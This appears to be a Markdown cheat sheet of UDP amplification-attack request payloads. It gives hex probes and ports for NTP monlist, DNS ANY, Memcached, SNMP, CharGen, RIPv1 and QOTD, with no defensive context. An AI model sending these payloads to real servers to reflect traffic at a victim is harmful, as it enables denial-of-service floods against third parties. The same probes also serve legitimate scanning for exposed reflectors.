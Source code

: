 # Amplification Attacks


|Protocol| Description |UDP Port | Request Payload HEX| 
|---| --- | ---| --- | 
|**NTP**| monlist command | 123 |`1700032a000000000000000000000000` | 
|**DNS**|  ANY google.com query| 53 |`17ea0100000100000000000106676f6f676c6503636f6d0000ff00010000290200000000000000` | 
|**Memcached**|  stat items |11211 | `5a4d0000000100007374617473206974` | 
|**SNMP**|  system description field using community string public | 161 |`302902010004067075626c6963a01c0204565adc5d020100020100300e300c06082b060102010101000500` |
|**CharGen**| one byte data "a" | 19 |`610a` |
|**RIPv1** | malformed request | 520 |`01010000000000000000000000000000`|
|**QOTD**| trigger a quote | 17 | `00`|
